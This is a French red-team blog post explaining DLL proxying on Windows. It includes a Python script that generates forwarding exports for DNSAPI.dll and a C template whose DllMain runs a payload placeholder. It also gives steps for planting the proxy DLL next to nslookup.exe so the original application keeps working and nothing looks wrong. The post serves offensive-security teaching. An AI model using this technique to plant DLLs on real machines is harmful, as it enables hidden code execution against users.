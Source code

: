 +++
author = "Sh0ckFR"
title = "Martin et le DLL Proxying de cristal"
date = "2022-05-16"
description = "Martin et le DLL Proxying de cristal"
tags = [
    "red-team",
]
+++

Bonjour à tous et à toutes, pour faire suite à mon article [Martine à la recherche de la DLL Hijacking perdue](/pages/martine-a-la-recherche-de-la-dll-hijacking-perdue/) je vous propose aujourd'hui un article sur le DLL Proxying.

![Sh0ckFR DLL Proxying](/images/martin-dll-proxying.jpg)

Comme vous vous en doutez, le gars au centre c'est Martin et il ne savait pas trop ce qu'il lui arrivait avec ce pouvoir entre les mains, ici c'est pareil.

Vous avez pu comprendre les mécanismes du DLL Hijacking dans mon précédent post, mais je n'avais pas évoqué un point important.

Effectivement, que se passe t'il si on redirige une fonction d'un programme sans pour autant rediriger les autres fonctions de celui-ci ? vous avez 4 heures.

En vrai c'est relativement simple, ça peut crash, du moins vous pouvez bloquer l'exécution d'un programme et exécuter votre charge utile sans attendre de retour mais cela rend l'application originale inutilisable.

Dans un contexte où l'application n'est pas vraiment nécessaire pour l'utilisateur, ça fonctionne relativement bien, mais imaginez bloquer une bibliothèque importante pour un programme de l'utilisateur, votre charge utile fonctionnera mais l'utilisateur ne pourra plus utiliser son application originale.

Mais alors comment faire ?

La réponse est simple, rediriger TOUTES les fonctions du programme original (donc faire un DLL hijacking sur toutes les fonctions connues).

Reprenons l'exemple dans le précédent post, vous aviez vu `nslookup.exe` utilisait une librairie vulnérable au DLL Hijacking `DNSAPI.dll`, pour retrouver toutes nos fonctions il existe un programme :

http://www.nirsoft.net/utils/dllexp-x64.zip

On peut donc retrouver la table d'export via ce logiciel :

![Sh0ckFR DLL Proxying](/images/dll-proxying-1.png)

Et là magie, on retrouve notre fonction utilisée dans le précédent post `DnsQueryConfigAllocEx`

![Sh0ckFR DLL Proxying](/images/dll-proxying-2.png)

Une autre solution pour éviter d'être dépendant de notre programme `DLL Export Viewer` et d'utiliser la librairie `pefile` pour Python :

```python
import pefile

exported_functions = []
pe = pefile.PE('C:\\windows\\system32\\DNSAPI.dll')
for entry in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    func = entry.name.decode('utf-8')
    exported_functions.append(f'#pragma comment(linker,"/export:{func}=proxy.{func},@{entry.ordinal}")')

exported_functions = '\n'.join(exported_functions)
print(exported_functions)
```

Ce qui donne un résultat du genre :

![Sh0ckFR DLL Proxying](/images/dll-proxying-3.png)

On voit que toutes les fonctions de DNSAPI.dll devront être redirigées vers une DLL nommée `proxy.dll`.

Il n'y a plus qu'à copier les exports pour le linked afin que nous puissons créer une DLL `DNSAPI.dll` avec toutes les fonctions attendues par la DLL originale `DNSAPI.dll` :

```c
#pragma once
#pragma comment(linker,"/export:AdaptiveTimeout_ClearInterfaceSpecificConfiguration=proxy.AdaptiveTimeout_ClearInterfaceSpecificConfiguration,@1")
#pragma comment(linker,"/export:AdaptiveTimeout_ResetAdaptiveTimeout=proxy.AdaptiveTimeout_ResetAdaptiveTimeout,@2")
#pragma comment(linker,"/export:AddRefQueryBlobEx=proxy.AddRefQueryBlobEx,@3")
#pragma comment(linker,"/export:BreakRecordsIntoBlob=proxy.BreakRecordsIntoBlob,@4")
#pragma comment(linker,"/export:Coalesce_UpdateNetVersion=proxy.Coalesce_UpdateNetVersion,@5")
#pragma comment(linker,"/export:CombineRecordsInBlob=proxy.CombineRecordsInBlob,@6")
#pragma comment(linker,"/export:DeRefQueryBlobEx=proxy.DeRefQueryBlobEx,@7")
...

int Main()
{
    // Your payload code.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Main();
        break;
    }
}
```

Il suffit ensuite de renommer la DLL originale `DNSAPI.dll` en `proxy.dll` et de copier notre nouvelle librairie `DNSAPI.dll` dans le même répertoire que le programme original et vous avez donc comme résultat un DLL Proxying parfait qui ne fera pas planter l'application originale.

Bien entendu, j'ai implémenté l'automatisation du DLL Proxying dans [DLLirant](https://github.com/Sh0ckFR/DLLirant) via l'argument `--proxydll` :

```python
python3 DLLirant.py -p "C:\THEFULLPATH\VulnerableDLL.dll"
```

## Crédits

itm4n - https://itm4n.github.io/dll-proxying/